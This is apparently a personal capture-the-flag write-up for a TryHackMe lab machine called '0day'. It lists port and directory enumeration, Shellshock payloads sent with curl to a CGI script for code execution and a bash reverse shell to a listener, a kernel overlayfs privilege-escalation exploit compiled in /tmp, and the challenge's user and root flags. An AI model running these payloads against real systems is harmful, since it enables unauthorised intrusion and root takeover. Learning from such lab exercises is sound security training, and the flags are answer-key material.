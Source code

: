 <pre>
Machine IP: 10.10.42.125(0day)

Enum:
    Open ports:
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day


Enum port 80: (gobuster)
    /cgi-bin (Status: 301)
        /cgi-bin/test.cgi -> vuln to shellshock
/img (Status: 301)
/uploads (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/backup (Status: 301)    
    /secret (Status: 301)

Exploit /cgi-bin/test.cgi
    Code exec:
        curl -H "User-Agent: () { :; };echo;echo; /bin/bash -c "whoami"" http://10.10.42.125/cgi-bin/test.cgi/
            www-data
    
    Reverse shell:
        rlwrap nc -lvnp 9003
        curl -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.9.199.66/9003 0>&1" http://10.10.42.125/cgi-bin/test.cgi/
        

    Priv Esc: at /tmp/ dir because we are www-data
Kernel version:
Enum for linux = linpeas.sh
3.13.0-32-generic
exploit :
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation               | exploits/linux/local/37292.c
Download via http.server python linpeas.sh and exploit.c
Via wget..

Exploit:
    /tmp$ /usr/bin/gcc > compiler path
    /tmp$ export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin

/tmp$ /usr/bin/gcc 37292.c > compile the exploit

/tmp $ ./a.out > run exploit and we got root!

User Flag: THM{Sh3llSh0ck_r0ckz}
Root Flag: THM{g00d_j0b_0day_is_Pleased}

    

R:
https://stackoverflow.com/questions/11912878/gcc-error-gcc-error-trying-to-exec-cc1-execvp-no-such-file-or-directory
,
https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld
,
https://blog.cloudflare.com/inside-shellshock/
</pre>
